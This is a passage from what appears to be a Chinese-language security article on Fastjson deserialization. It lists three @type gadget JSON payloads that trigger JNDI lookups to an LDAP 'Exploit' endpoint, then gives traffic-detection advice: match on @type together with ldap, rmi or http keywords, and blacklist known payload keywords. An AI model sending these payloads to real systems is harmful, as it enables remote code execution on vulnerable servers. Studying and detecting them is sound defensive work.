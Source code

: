 ```json

{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}

{"@type":"org.apache.aries.transaction.jms.RecoverablePooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}

{"@type":"org.apache.aries.transaction.jms.internal.XaPooledConnectionFactory", "tmJndiName": "ldap://localhost:1389/Exploit", "tmFromJndi": true, "transactionManager": {"$ref":"$.transactionManager"}}
```

一个很明显的流量特征，就是存在@type，这个@type特性正常业务用的很少（但是我也碰到过=-='''），所以需要精准的判断攻击流量的话，可以在@type特征的基础上，再判断是否存在 `ldap` 、 `rmi` 、 `http` 等关键字（因为一般都是转换成JNDI注入了，需要特别关注下JNDI注入的关键字）。此外，还可以把在野Payload的关键字都加上黑名单。


## 参考

- [https://paper.seebug.org/636/#2-getoutputproperties](https://paper.seebug.org/636/#2-getoutputproperties)
- [https://meizjm3i.github.io/2019/06/05/FastJson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%A7%A3%E6%9E%90%E6%B5%81%E7%A8%8B/](https://meizjm3i.github.io/2019/06/05/FastJson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%A7%A3%E6%9E%90%E6%B5%81%E7%A8%8B/)
- [https://paper.seebug.org/994/](https://paper.seebug.org/994/)
- [https://kumamon.fun/FastJson-checkAutoType/](https://kumamon.fun/FastJson-checkAutoType/)

[p1]:/media/2021-08-02-01.png
[p2]:/media/2021-08-02-02.png
[p3]:/media/2021-08-02-03.png
[p4]:/media/2021-08-02-04.png
[p5]:/media/2021-08-02-05.png











